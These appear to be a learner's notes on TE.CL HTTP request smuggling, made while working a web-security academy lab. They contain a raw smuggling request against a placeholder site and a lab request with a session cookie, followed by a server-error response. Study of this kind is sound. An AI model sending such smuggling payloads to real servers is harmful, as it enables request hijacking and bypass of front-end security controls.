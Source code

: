 Here, the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can perform a simple HTTP request smuggling attack as follows:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

The front-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following SMUGGLED. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the Content-Length header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence. 

> The attack request have to have \r\n \r\n
### Lab: HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

```
POST / HTTP/1.1
Host: 0ac600d804e5355b83df3365000a00b2.web-security-academy.net
Cookie: session=04GioWmAAi4NoKEiml45ebuviVPPubLs
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```
